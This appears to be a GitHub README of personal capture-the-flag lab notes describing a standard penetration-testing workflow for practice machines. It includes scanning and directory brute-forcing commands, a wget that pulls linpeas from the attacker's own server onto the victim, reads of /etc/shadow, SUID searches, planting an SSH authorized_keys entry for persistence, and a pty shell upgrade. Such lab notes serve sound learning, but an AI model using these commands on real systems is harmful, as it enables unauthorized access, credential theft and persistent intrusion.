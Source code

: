- Difficulties are categoried as the original author written
- Some easy are not that easy and not easy may be easy
- Though I titled as `writeups`, they are not written as writeups. 
- Just records to track the progress

- In notes, I often skip how to nmap scan, how directory brute forcing, how to get linpeas file, etc
- For that, I always use the same methods.

- First, I use zsh in my ubuntu machine and terminator (which can easily split screens, `Ctrl+Shift+o` for horizontal split and `Ctrl+Shift+e` for vertical split)
- After starting the rooms, I first export IP of the room `export IP=10.10.230.23` in `~/.zshrc` files

1. Nmap Scan

```sh
nmap -sC -sV $IP -oN nmap_init.log -vv
```

- if there are few ports found with default port scanning, I use rustcan to scan all ports (rustscan is fast)

```sh
rustscan -a $IP
```

2. Directory Brute Forcing with FFUF

- I first started with common.txt wordlist (I think it is inside Seclist but I move under usr folder)

```sh
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128
```

- If nothing found, use `directory-list-2.3-medium.txt` file

3. For sharing file from local machine to victim (room's) machine, I have already created folder `share/exploit`

- Inside that folder, I collect linpeas.sh, pspy, etc
- from local machine, create python server

```sh
python -m http.server 8888
```

- Then from room's shell,

```sh
wget http://$TUN0_IP:8888/linpeas.sh
```

4. For linux privilege escalation, I first check

```sh
sudo -l
id                # check groups, docker, sudo, lxd, etc
ls -la /home      # check the users with home directories
cat /etc/passwd   # check the users
cat /etc/shadow   # can i read this
cat /etc/crontab  # if there any cron jobs
sudo --version    # to check sudo bypass
find / -perm -4000 2>/dev/null # for suid bits
```

- if not found, run `linpeas.sh` file

5. If I already get user access and the machine has ssh service open and want to get ssh shell, I have already create `id_rsa` pair in my local machine with

```sh
ssh-keygen
# then fill -> id_rsa
# enter, enter -> for no password
```
- It will create `id_rsa` and `id_rsa.pub` file
- To enter into machine which you already get shell access, in victim machine, 

```sh
cd ~ # go to home directory
mkdir .ssh # create .ssh file
echo "contents_from_id_rsa.pub_from_local_machine" > .ssh/authorized_keys
# save your id_rsa.pub content as authorized keys
```
- from local machine

```sh
ssh username@$IP -i id_rsa
```
- it will enter with ssh

6. To get stable shell and if the machine is installed python3

- in victim machine

```sh
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'
# press Ctrl+z -> to run as backgroud and will return to local machine shell
stty raw -echo; fg # will return to victim machine
reset
```
